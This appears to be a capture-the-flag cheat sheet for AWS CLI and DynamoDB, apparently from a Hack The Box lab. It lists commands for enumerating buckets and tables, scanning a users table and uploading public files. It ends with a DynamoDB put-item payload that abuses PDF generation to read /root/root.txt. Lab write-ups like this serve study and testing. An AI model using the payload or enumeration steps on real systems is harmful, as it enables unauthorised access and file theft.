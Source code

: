 ```yaml
---
icon: aws
---
```


# AWS

<details>

<summary><mark style="color:orange;"><strong><code>aws-cli</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Set it up remotely`**</mark>

{% code title="Set the ID" overflow="wrap" %}
```sh
aws configure set aws_access_key_id health
```
{% endcode %}

{% code title="Set the key" overflow="wrap" %}
```sh
aws configure set aws_secret_access_key 444af250749d
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**`Enumeration`**</mark>

{% code title="List the buckets romotetly" overflow="wrap" %}
```sh
aws s3 ls --endpoint-url http://s3.bucket.htb/
```
{% endcode %}

{% code title="List buckets locally" overflow="wrap" %}
```sh
aws s3 ls s3://BUCKET_Name/
```
{% endcode %}

{% code title="List the bucket's content" overflow="wrap" %}
```sh
aws s3 ls s3://adserver --endpoint-url http://s3.bucket.htb/
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
{% code title="Upload a file" overflow="wrap" %}
```sh
aws s3 cp FILE_NAME s3://BUCKET_NAME/
```
{% endcode %}

{% code title="Upload it and make it public" overflow="wrap" %}
```sh
aws s3 cp tokyo s3://adserver/ --endpoint-url http://s3.bucket.htb --acl public-read
```
{% endcode %}
{% endhint %}

{% code title="Remove a file" overflow="wrap" %}
```sh
aws s3 rm s3://Bucket_Name/FILE_NAME
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Dynamodb</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:purple;">**Set the**</mark> <mark style="color:orange;">**`Dynamodb`**</mark> <mark style="color:purple;">**instance**</mark>

{% code title="Set the ID" overflow="wrap" %}
```sh
export AWS_ACCESS_KEY_ID=health
```
{% endcode %}

{% code title="Set the key" overflow="wrap" %}
```sh
export AWS_SECRET_ACCESS_KEY=444af250749d
```
{% endcode %}

{% code title="Set the region" overflow="wrap" %}
```sh
export AWS_DEFAULT_REGION=us-east-1
```
{% endcode %}

{% code title="Set the endpoint" overflow="wrap" %}
```sh
export AWS_ENDPOINT_URL=http://localhost:4566
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**`Enumeration`**</mark>

{% code title="List the tables" overflow="wrap" %}
```sh
aws dynamodb list-tables --endpoint-url http://localhost:4566
```
{% endcode %}

{% code title="List the users" overflow="wrap" %}
```sh
aws dynamodb scan --table-name users --endpoint-url http://localhost:4566
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
{% code title="Create a table" overflow="wrap" %}
```sh
aws --endpoint-url http://s3.bucket.htb dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**Create an**</mark> [<mark style="color:red;">**`item`**</mark>](#user-content-fn-1)[^1]

{% code overflow="wrap" %}
```sh
aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src=\"/root/root.txt\" description=\"attachment sample\" icon=\"Paperclip\"/></html>"}}'
```
{% endcode %}
{% endhint %}

</details>

[^1]: [<mark style="color:purple;">**`In this example in order to create a malicious PDF we need to meet a condition, that is triggering an alert on a DynamoDB, when that alert is triggered a PDF and HTML files will be generated by a PHP web-server`**</mark>](#user-content-fn-2)[^2]
